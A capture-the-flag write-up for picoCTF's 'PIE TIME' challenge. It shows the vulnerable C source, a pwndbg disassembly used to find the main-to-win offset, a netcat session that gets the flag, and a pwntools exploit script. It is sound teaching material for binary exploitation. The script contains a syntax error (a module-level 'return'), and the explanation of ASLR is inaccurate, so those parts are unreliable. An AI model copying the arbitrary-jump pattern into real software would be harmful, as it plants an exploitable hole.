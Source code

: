 # PIE TIME

Level: Easy

## Initial Thoughts
This challenge is called PIE TIME, so right away I am thinking PIE is likely enabled, but nothing else since this is an Easy level challenge.

This thought was solidified further after reading the description:
```text
Can you try to get the flag? Beware we have PIE!
Additional details will be available after launching your challenge instance.
```

As always, I launched the instance and saw three new things:
1. The program source file: `vuln.c`
2. The program binary file: `vuln`
3. A server to connect to via netcat: `nc rescued-float.picoctf.net <port>`

Right away, I checked out the source file and the binary.

First, the source file:
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

What's going on here? Well, there is the obvious: there is a win function; if we call the win function, we get the flag. Awesome. How can we go about that? Well, in the main function, we see it GIVES us the address of main, and gives us an input ot jump to an address. So perhaps we are going to need to jump to the address of win?

Let's summarize. What's the gameplan?
1. Be given the address of main
2. Determine the address of win and main to find the constant offset
3. Jump to win and, well, win!

## Solving the Challenge
Since step 1 is literally given to us, the next thing we need to try to do is determine the address of win(). We can't just grab the address of win() once because PIE is enabled, so it is always going to change. But, here's the key, what about finding the relative offset between main and win?!? Since ASLR isn't enabled, that offset is always going to be the same. Let's find the relative offset real quick, and then it should be easy-peasy to exploit the code.

Let's fire up `gdb` with the program binary (I'll be using `pwngdb` which is just a flavor of `gdb`, but is highly recommended).
```sh
$ pwndbg ./vuln           
Reading symbols from ./vuln...
(No debugging symbols found in ./vuln)
pwndbg> disassemble main
Dump of assembler code for function main:
   0x000000000000133d <+0>:     endbr64
   0x0000000000001341 <+4>:     push   rbp
   0x0000000000001342 <+5>:     mov    rbp,rsp
   0x0000000000001345 <+8>:     sub    rsp,0x20
   0x0000000000001349 <+12>:    mov    rax,QWORD PTR fs:0x28
   0x0000000000001352 <+21>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000000000001356 <+25>:    xor    eax,eax
   0x0000000000001358 <+27>:    lea    rsi,[rip+0xffffffffffffff2a]        # 0x1289 <segfault_handler>
   0x000000000000135f <+34>:    mov    edi,0xb
   0x0000000000001364 <+39>:    call   0x1150 <signal@plt>
   0x0000000000001369 <+44>:    mov    rax,QWORD PTR [rip+0x2ca0]        # 0x4010 <stdout@@GLIBC_2.2.5>
   0x0000000000001370 <+51>:    mov    ecx,0x0
   0x0000000000001375 <+56>:    mov    edx,0x2
   0x000000000000137a <+61>:    mov    esi,0x0
   0x000000000000137f <+66>:    mov    rdi,rax
   0x0000000000001382 <+69>:    call   0x1160 <setvbuf@plt>
   0x0000000000001387 <+74>:    lea    rsi,[rip+0xffffffffffffffaf]        # 0x133d <main>
   0x000000000000138e <+81>:    lea    rdi,[rip+0xcbf]        # 0x2054
   0x0000000000001395 <+88>:    mov    eax,0x0
   0x000000000000139a <+93>:    call   0x1130 <printf@plt>
   0x000000000000139f <+98>:    lea    rdi,[rip+0xcca]        # 0x2070
   0x00000000000013a6 <+105>:   mov    eax,0x0
   0x00000000000013ab <+110>:   call   0x1130 <printf@plt>
   0x00000000000013b0 <+115>:   lea    rax,[rbp-0x18]
   0x00000000000013b4 <+119>:   mov    rsi,rax
   0x00000000000013b7 <+122>:   lea    rdi,[rip+0xce0]        # 0x209e
   0x00000000000013be <+129>:   mov    eax,0x0
   0x00000000000013c3 <+134>:   call   0x1180 <__isoc99_scanf@plt>
   0x00000000000013c8 <+139>:   mov    rax,QWORD PTR [rbp-0x18]
   0x00000000000013cc <+143>:   mov    rsi,rax
   0x00000000000013cf <+146>:   lea    rdi,[rip+0xccc]        # 0x20a2
   0x00000000000013d6 <+153>:   mov    eax,0x0
   0x00000000000013db <+158>:   call   0x1130 <printf@plt>
   0x00000000000013e0 <+163>:   mov    rax,QWORD PTR [rbp-0x18]
   0x00000000000013e4 <+167>:   mov    QWORD PTR [rbp-0x10],rax
   0x00000000000013e8 <+171>:   mov    rax,QWORD PTR [rbp-0x10]
   0x00000000000013ec <+175>:   call   rax
   0x00000000000013ee <+177>:   mov    eax,0x0
   0x00000000000013f3 <+182>:   mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000000013f7 <+186>:   xor    rdx,QWORD PTR fs:0x28
   0x0000000000001400 <+195>:   je     0x1407 <main+202>
   0x0000000000001402 <+197>:   call   0x1120 <__stack_chk_fail@plt>
   0x0000000000001407 <+202>:   leave
   0x0000000000001408 <+203>:   ret
End of assembler dump.
pwndbg> disassemble win
Dump of assembler code for function win:
   0x00000000000012a7 <+0>:     endbr64
   0x00000000000012ab <+4>:     push   rbp
   0x00000000000012ac <+5>:     mov    rbp,rsp
   0x00000000000012af <+8>:     sub    rsp,0x10
   0x00000000000012b3 <+12>:    lea    rdi,[rip+0xd74]        # 0x202e
   0x00000000000012ba <+19>:    call   0x1100 <puts@plt>
   0x00000000000012bf <+24>:    lea    rsi,[rip+0xd71]        # 0x2037
   0x00000000000012c6 <+31>:    lea    rdi,[rip+0xd6c]        # 0x2039
   0x00000000000012cd <+38>:    call   0x1170 <fopen@plt>
   0x00000000000012d2 <+43>:    mov    QWORD PTR [rbp-0x8],rax
   0x00000000000012d6 <+47>:    cmp    QWORD PTR [rbp-0x8],0x0
   0x00000000000012db <+52>:    jne    0x12f3 <win+76>
   0x00000000000012dd <+54>:    lea    rdi,[rip+0xd5e]        # 0x2042
   0x00000000000012e4 <+61>:    call   0x1100 <puts@plt>
   0x00000000000012e9 <+66>:    mov    edi,0x0
   0x00000000000012ee <+71>:    call   0x1190 <exit@plt>
   0x00000000000012f3 <+76>:    mov    rax,QWORD PTR [rbp-0x8]
   0x00000000000012f7 <+80>:    mov    rdi,rax
   0x00000000000012fa <+83>:    call   0x1140 <fgetc@plt>
   0x00000000000012ff <+88>:    mov    BYTE PTR [rbp-0x9],al
   0x0000000000001302 <+91>:    jmp    0x131e <win+119>
   0x0000000000001304 <+93>:    movsx  eax,BYTE PTR [rbp-0x9]
   0x0000000000001308 <+97>:    mov    edi,eax
   0x000000000000130a <+99>:    call   0x10f0 <putchar@plt>
   0x000000000000130f <+104>:   mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000001313 <+108>:   mov    rdi,rax
   0x0000000000001316 <+111>:   call   0x1140 <fgetc@plt>
   0x000000000000131b <+116>:   mov    BYTE PTR [rbp-0x9],al
   0x000000000000131e <+119>:   cmp    BYTE PTR [rbp-0x9],0xff
   0x0000000000001322 <+123>:   jne    0x1304 <win+93>
   0x0000000000001324 <+125>:   mov    edi,0xa
   0x0000000000001329 <+130>:   call   0x10f0 <putchar@plt>
   0x000000000000132e <+135>:   mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000001332 <+139>:   mov    rdi,rax
   0x0000000000001335 <+142>:   call   0x1110 <fclose@plt>
   0x000000000000133a <+147>:   nop
   0x000000000000133b <+148>:   leave
   0x000000000000133c <+149>:   ret
End of assembler dump.
```

Voiala. From that, we see we have the address 0x000000000000133d for main and 0x00000000000012a7 for win. We can subtract these and we get 0x96. Perfect. Now we know what the relative offset is.

Let's run the service and see if this works:
```
┌──(kali㉿kali)-[~/Downloads]
└─$ nc rescued-float.picoctf.net 56881
Address of main: 0x613514f6433d
Enter the address to jump to, ex => 0x12345: 0x613514f642a7
Your input: 613514f642a7
You won!
picoCTF{<censored>}
```

Awesome! It worked. But what happened? We were given the address of main, we entered the address of main minus the offset, and we got the flag by jumping to that locatoin!

That's great, but now let's automate it! We can use `pwntools` for this:

```python
from pwn import *
import sys

if (len(sys.argv)<=1):
  print("Please pass the port as a parameter")
  return

conn = remote('rescued-float.picoctf.net', sys.argv[1]) # connect to host

main_addr = int(conn.recvline().strip().decode().split(": ")[1], 0) # main_addr parsed from given info
offset = 0x96 # Relative offset between main_addr and win_addr pre-calculated
win_addr = main_addr - offset

conn.sendline(hex(win_addr).encode())

conn.recvline() # this is the line which takes in the input, we don't care about it
conn.recvline() # this also just tells us we won
print(conn.recvline()) # print off the flag!
```